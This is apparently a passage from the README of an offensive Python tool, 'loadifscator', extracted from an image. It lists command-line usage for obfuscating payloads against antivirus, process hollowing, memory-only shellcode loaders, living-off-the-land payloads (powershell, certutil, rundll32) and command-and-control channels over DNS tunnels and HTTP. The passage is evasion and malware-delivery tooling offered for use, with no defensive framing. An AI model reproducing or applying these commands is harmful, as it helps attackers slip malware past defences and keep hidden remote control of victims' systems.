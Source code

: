 ### 4. One-Liner Encoding
```
python -m loadifscator.cli oneliner --file [INPUT] --lang [LANG]
```

### 5. AI-Powered Payload Optimization
```
python -m loadifscator.cli ai-optimize --file [INPUT] --target [AV] -o [OUTPUT]
```
- Example: `python -m loadifscator.cli ai-optimize --file reverse.py --target generic -o ai_optimized.py`

### 6. Metamorphic Obfuscation
```
python -m loadifscator.cli metamorphic --file [INPUT] --iterations [N] -o [OUTPUT]
```

### 7. Process Hollowing
```
python -m loadifscator.cli hollow --process [PROCESS] -o [OUTPUT]
```
- Example: `python -m loadifscator.cli hollow --process notepad.exe -o hollow_payload.py`

### 8. Memory-Only Shellcode Loader
```
python -m loadifscator.cli memory-only --shellcode [SHELLCODE.BIN] -o [OUTPUT]
```
- Example: `python -m loadifscator.cli memory-only --shellcode calc_launcher.bin -o calc_loader.py`

### 9. Living-Off-The-Land Payloads
```
python -m loadifscator.cli living-off-land --technique [TECHNIQUE] --payload [PAYLOAD] -o [OUTPUT]
```
- Techniques: powershell, wmi, registry, schtasks, com, certutil, rundll32

### 10. C2 Integrations
- MirageC2: `python -m loadifscator.cli c2-mirage --server [URL] --listener [NAME] --key [APIKEY] -o [OUTPUT]`
- DNS Tunnel: `python -m loadifscator.cli dns-tunnel --domain [DOMAIN] --server [C2IP] -o [OUTPUT]`
- HTTP Blend: `python -m loadifscator.cli http-blend --url [C2URL] -o [OUTPUT]`

---

## Advanced Modules

### Obfuscators
- **Base64:** Encodes payloads in base64
- **XOR:** XORs payloads with a user-supplied key
- **String Mangling:** Splits and mangles string literals
- **Polymorphic:** Randomizes code structure, variable names, and adds junk code
- **Metamorphic:** Deep code transformation, unique build per run
